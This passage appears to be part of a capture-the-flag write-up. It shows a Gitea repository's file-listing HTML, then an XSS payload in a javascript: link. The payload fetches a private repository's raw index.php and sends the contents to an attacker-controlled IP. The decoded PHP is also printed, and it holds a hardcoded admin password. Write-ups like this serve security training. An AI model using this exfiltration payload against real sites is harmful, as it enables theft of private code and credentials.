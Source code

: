 ```html
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T04:04:08Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 04:04:08 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="style.css" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/style.css" title="style.css">style.css</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
	...
</body>
</html>
```

Among the listed files, we find `index.php`, which might contain sensitive data. Instead of navigating through `HTML`, we can retrieve it directly in raw format using the path `/administrator/Employee-management/raw/branch/main/index.php`.

The modified payload will be:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Repeating the process, we decode the retrieved data:

```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>
```
